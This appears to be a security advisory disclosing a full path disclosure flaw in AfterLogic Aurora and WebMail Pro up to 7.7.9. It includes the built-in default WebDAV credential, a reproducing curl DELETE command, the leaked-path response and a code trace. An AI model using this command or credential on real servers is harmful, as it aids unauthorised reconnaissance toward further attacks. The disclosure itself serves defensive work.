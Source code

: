 # **Report Title:** Public Full Path Disclosure on AfterLogic Aurora & WebMail Pro WebDAV EndPoint

**The severity of the issue:** Medium

**Complexity:** Easy

**Affected Products:** AfterLogic Aurora, AfterLogic WebMail PRO

**Authentication:** Not required

**Attacks:** Full Path Disclosure

## **Resources :**

* https://owasp.org/www-community/attacks/Full_Path_Disclosure
* https://owasp.org/www-community/attacks/Path_Traversal

## **Authors :**

* Emre KELEŞ - @emrekeles on twitter [![Twitter URL](https://img.shields.io/twitter/url/https/twitter.com/emrekeles.svg?style=social&label=Follow%20%40emrekeles)](https://twitter.com/emrekeles)
* Emircan YILDIZ - @scorpsec on twitter [![Twitter URL](https://img.shields.io/twitter/url/https/twitter.com/scorpsec.svg?style=social&label=Follow%20%40scorpsec)](https://twitter.com/scorpsec)
* Halil Emre ÖZEN - @halilemreozen on twitter [![Twitter URL](https://img.shields.io/twitter/url/https/twitter.com/halilemreozen.svg?style=social&label=Follow%20%halilemreozen)](https://twitter.com/halilemreozen)

## **Report Summary :**
AfterLogic Aurora and WebMail Pro products with 7.7.9 and all lower versions are affected by this vulnerability, simply sending an HTTP DELETE request to WebDAV EndPoint with built-in “**caldav_public_user@localhost**” and it’s the predefined password “**caldav_public_user**” allows the attacker to obtain web root path.

## **To Reproduce :**

Get the web root path with the following curl command

```shell
curl -X DELETE -u 'caldav_public_user@localhost:caldav_public_user' "https://sample-mail.tld/dav/server.php/files/personal/GIVE_ME_ERROR_TO_GET_DOC_ROOT_2021"
```

## **Response :**

``` xml
<?xml version="1.0" encoding="utf-8"?>
<d:error xmlns:d="DAV:" xmlns:s="http://sabredav.org/ns">
  <s:exception>Sabre\DAV\Exception\NotFound</s:exception>
  <s:message>File with name /var/www/html/www/webmailpro.dev/data/files/private/caldav_public_user@localhost/GIVE_ME_ERROR_TO_GET_DOC_ROOT_2021 could not be located</s:message>
</d:error>
```

In this scenario : **/var/www/html/www/webmailpro.dev** is the web root path, this data is especially becomes valuable for the file upload vulnerabilities.

## **Technical Description:**

* dav\server.php (handles the request, create the \afterlogic\DAV\Server instance )
* \libraries\Sabre\DAV\server.php -> exec (Pass the request method and uri to invokeMethod)
* \libraries\Sabre\DAV\server.php -> invokeMethod 
* \libraries\Sabre\DAV\server.php -> httpDelete
* \libraries\Sabre\DAV\Tree.php -> delete
* \libraries\Sabre\DAV\ObjectTree.php -> getNodeForPath
* \libraries\Sabre\DAV\FS\Directory.php -> getChild

Get web root path vulnerability starts on step 7 / getChild, at the \Sabre\DAV\Exception\NotFound('File with name ' . $path . ' could not be located') line **$path** variable contains web root path

With the above problem any loggable user can obtain web root path, with the caldav_public_user@localhost user, attackers don’t need any user info because it has a predefined password, so vulnerability becomes publicly accessible.
